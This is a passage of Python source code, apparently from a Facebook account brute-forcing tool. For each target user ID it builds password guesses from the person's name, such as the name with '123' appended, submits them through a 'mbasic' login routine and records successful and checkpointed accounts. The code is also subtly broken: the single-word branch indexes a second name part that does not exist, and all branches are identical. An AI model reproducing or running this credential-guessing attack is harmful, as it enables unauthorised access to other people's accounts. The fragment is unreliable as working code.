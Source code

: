 						xz = name.split(' ')

						if len(xz) == 1:

							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]

						elif len(xz) == 2:

							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]

						elif len(xz) == 3:

							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]

						elif len(xz) == 4:

							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]

						else:

							pwx = [name, xz[0]+xz[1], xz[1]+xz[0], xz[0]+"123", xz[0]+"1234", xz[0]+"12345"]

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:

							pass

			os.remove(self.apk)

			hasil(ok,cp)

		else:

			print('\nSalah')

			time.sleep(1)

			self.__pler__()

class load:

	def __init__(self):

		_ = ''

		__ = int('30')

		___ = int('0')

		__ -= 1

		___ += 1

		for t in range(int("1")):

			print('\r Loading ...')

			sys.stdout.flush()

			time.sleep(0.1)

		print('\n')

banner = """
